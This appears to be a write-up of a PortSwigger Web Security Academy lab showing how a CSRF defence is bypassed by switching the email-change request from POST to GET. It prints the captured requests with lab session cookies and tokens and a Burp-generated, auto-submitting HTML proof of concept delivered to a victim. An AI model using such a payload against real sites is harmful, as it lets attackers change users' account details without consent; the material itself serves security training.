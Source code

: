 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/762d8524-783f-44fb-974c-54439e3ee32d)


## Overview :

alidation of CSRF token depends on request method

Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.

In this situation, the attacker can switch to the GET method to bypass the validation and deliver a CSRF attack:

```http
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

## Solution :

Since it is given that the `update email` functionality is vulnerable to CSRF, we can capture the request and see if there is any protection mechanism in place.

```http
POST /my-account/change-email HTTP/1.1
Host: 0a9000b004fa0c888012c66c002e0008.web-security-academy.net
Cookie: session=nAZiwTvOzEcB1TdYD5RLaHfXTT5Mo2Lq
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net
Referer: https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=test%40user.net&csrf=xvqogQP8ZxVV3jk2Tyf2iisoyuHjGAbk
```

In this **POST** request, we can see that there is a _csrf_ token used in the body of the request along with the email parameter.

To bypass this, we can try to **change the request method from POST to GET** .

```http
GET /my-account/change-email?email=test%40user.net&csrf=xvqogQP8ZxVV3jk2Tyf2iisoyuHjGAbk HTTP/1.1
Host: 0a9000b004fa0c888012c66c002e0008.web-security-academy.net
Cookie: session=nAZiwTvOzEcB1TdYD5RLaHfXTT5Mo2Lq
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net
Referer: https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

Now we can generate a POC and upload it in the exploit server to solve the lab.

```http
GET /my-account/change-email?email=test%40user.net&csrf=xvqogQP8ZxVV3jk2Tyf2iisoyuHjGAbk HTTP/1.1
Host: 0a9000b004fa0c888012c66c002e0008.web-security-academy.net
Cookie: session=nAZiwTvOzEcB1TdYD5RLaHfXTT5Mo2Lq
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net
Referer: https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

**Generated HTML POC -**


```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="test&#64;user&#46;net" />
      <input type="hidden" name="csrf" value="xvqogQP8ZxVV3jk2Tyf2iisoyuHjGAbk" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Deliver the exploit to victim.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/bee82a7e-ca0f-437b-8e95-41e338a4151a)















